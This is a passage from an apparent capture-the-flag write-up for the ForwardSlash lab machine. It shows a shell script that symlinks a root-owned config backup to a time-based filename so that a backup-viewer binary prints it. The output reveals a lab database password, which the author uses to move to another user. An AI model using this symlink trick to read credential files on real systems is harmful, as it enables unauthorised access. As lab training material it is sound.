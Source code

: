> nice! this is a md5 hash.

> look at the output when running the backup file >> Its saying it is a **time based Backup Viewer**, and we can use it to view any backup file if we run it in the same time.

> now there is backup file in /var/backups/config.php.bak

> for this point i made a seconed script to extract the content of the backup file while we running the backup viewer.

```ruby

i=$(backup | grep ERROR | awk '{print $2}');
ln -s /var/backups/config.php.bak ./$i;
backup;

```

> let's run it.

```ruby

chiv@forwardslash:~$ ./pain.sh 
----------------------------------------------------------------------
	Pain's Next-Gen Time Based Backup Viewer
	v0.1
	NOTE: not reading the right file yet, 
	only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 20:04:26
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'pain');
define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
define('DB_NAME', 'site');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>

```

* nice!, now we have pain password

# []() Pain@Forwardslash.htb
